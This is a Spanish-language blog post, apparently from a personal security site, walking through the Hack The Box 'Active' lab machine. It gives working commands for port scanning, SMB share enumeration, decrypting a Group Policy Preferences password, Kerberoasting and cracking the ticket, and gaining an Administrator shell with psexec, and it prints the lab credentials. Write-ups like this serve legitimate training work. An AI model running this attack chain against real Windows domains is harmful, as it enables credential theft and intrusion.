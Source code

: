 ```yaml
---
layout:   post
title:    "Write Up Active"
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy, Windows, Kerberoasting, gpp-decrypt, SMB, Active-Directory, Write-Up-Machine, Starting-Point, OSCP, OSEP]
---
```

![list](/assets/img/active/active.png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando 

diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
sudo nmap --open -p- -Pn -n -vvv --min-rate 5000 -sS 10.10.10.100 -oG allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comando anterior podremos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49165,49166,49168 10.10.10.100 -oN target -Pn
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}

***
## Analisis de vulnerabilidades

Estando abierto los puertos 139 y 445 imediatamente lo que debemos hacer es tratar de 

explotar el smb,esto lo hacemos con crackmapexec, smbclient,smbmap entre otros.

![list](/assets/img/active/Kali-2022-09-16-23-10-48.png){:.lead width="800" height="100" loading="lazy"}

```bash
smbclient -L 10.10.10.100 -N
```

{:.note}
Listamos los shares.

Con crackmapexec vemos si el smb esta firmado ademas del dominio entre ota informacion.

```bash
crackmapexec smb 10.10.10.100
```

{:.note}
El doninio es `active.htb`,lo agrgamos al `/etc/hosts`.

Los siguiente es movernos por el recurso smb o crearnos una montura pero en este caso 

como vemos que hay muchos recursos pero sin credenciales solo tenemos acceso al share 

replication el cual podemos listar o movernos dentro de el con el parametro -R recursivamente 

para ver todo el contenido del mismo o con -r para movernos como directorio sea como sea 

en este caso lo que deberemos bucar es un archivo llamado groups.xml que contenie una 

credecial que deberemos crackear.

![list](/assets/img/active/Parrot-SO3-2022-08-18-22-31-30.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Como se puede observar tiene el dominio y el useraurio `active.htb\SVC_TGS` mas un hash .

Con la herramienta `gpp-decrypt` pdemos obtener la contraseña de la siguiente forma.

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```

{:.note}
La contraseña es `GPPstillStandingStrong2k18`.

***
## Explotacion

Con cracmapexec verificamos si las credeciales son validas ademas podemos listar de una ves a 

que shres tenemos accesos,tenemos acceso a NETLOGON, Replication, SYSVOL y Users .

El unico que tiene algo interesante es el de Users el cual moviendo atraves del recurso 

podremos encontrar la flag user.txt o tambien podriamos decargarla a nuestra maquina con el comando.

```bash
smbmap -H 10.10.10.100 -u "SVC_TGS" -p "GPPstillStandingStrong2k18" --dounload Users/SVC_TGS/Desktop/user.txt
```

{:.note}
Un cat a user.txt y se puede ver la contraseña.

![list](/assets/img/active/Parrot-SO3-2022-08-18-22-50-08.png){:.lead width="800" height="100" loading="lazy"}

***
## Escalacion de privilegios 

Exite varias herramentas que enumeran usauarios y grupos de smb y rcp, podemos usar 

`lookupsid.py` y `rcpclient` pero ene ste caso utilizaremos `rcpclient`.

![list](/assets/img/active/Parrot-SO3-2022-08-18-22-50-08.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Encontramos otros tres usuarior pero nada a destacar.

Por lo anterior tenemos el dominio + un usuario + una contraseña  podemos probar un ataque [Kerberosting]

[Kerberosting]: https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html

```bash
GetUserSPNs.py 'active.htb/SVC_TGS:GPPstillStandingStrong2k18' -request
```
![list](/assets/img/active/Parrot-SO3-2022-08-18-23-02-30.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Debermos crackear el hash con `John The Ripper`.

```bash
john -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
```

{:.note}
La contraseña es`Ticketmaster1968`.

Con cracmapexec verificamos si las credeciales son validas.

```bash
crackmapexec smb 10.10.10.100 -u "Administrator" -p "Ticketmaster1968"
```

![list](/assets/img/active/Kali-2022-09-16-23-36-01.png){:.lead width="800" height="100" loading="lazy"}

Con la herramienta `psexec.py` nos conectamos a la maquina victima con el siguiente comando.

```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd.exe
```

Para este punto solo debemos buscar las flags aunque la de user.txt ya la pudimos ver antes.

![list](/assets/img/active/Kali-2022-09-16-23-41-01.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
La flag esta en el ecritorio del usuario no privilegiado.

![list](/assets/img/active/Kali-2022-09-16-23-41-58.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
La flag esta en el ecritorio del usuario priviligiado.

***
```bash
🎉 Felicitaciones ya has comprometido Active de Hack The Box. 🎉
```
{:.centered}
***
Back to [Beginner Track Active Directory](2022-09-21-Beginner-Track-AD.md){:.heading.flip-title}
{:.read-more}
